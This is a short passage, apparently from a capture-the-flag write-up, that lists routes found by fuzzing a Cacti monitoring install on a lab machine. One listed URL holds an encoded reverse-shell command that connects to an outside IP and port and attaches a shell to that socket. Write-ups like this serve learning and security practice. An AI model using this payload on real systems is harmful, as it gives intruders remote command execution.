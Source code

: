 After fuzzing for a while, I found the following routes: 

`http://cacti.monitorsthree.htb/cacti/include/vendor/csrf/csrf-secret.php`

`http://cacti.monitorsthree.htb/cacti/cmd_realtime.php?1+1&&%3b0%3C%26196%3Bexec%20196%3C%3E%2Fdev%2Ftcp%2F10.10.11.30%2F1674%3B%20sh%20%3C%26196%20%3E%26196%202%3E%26196`

They have these contents:

![Pasted image 20250117153315.png](../../IMAGES/Pasted%20image%2020250117153315.png)

![Pasted image 20250117153335.png](../../IMAGES/Pasted%20image%2020250117153335.png)

Nothing too useful to get credentials or bypass that login page, so, I went back to the main website and found the following:

![Pasted image 20250117153418.png](../../IMAGES/Pasted%20image%2020250117153418.png)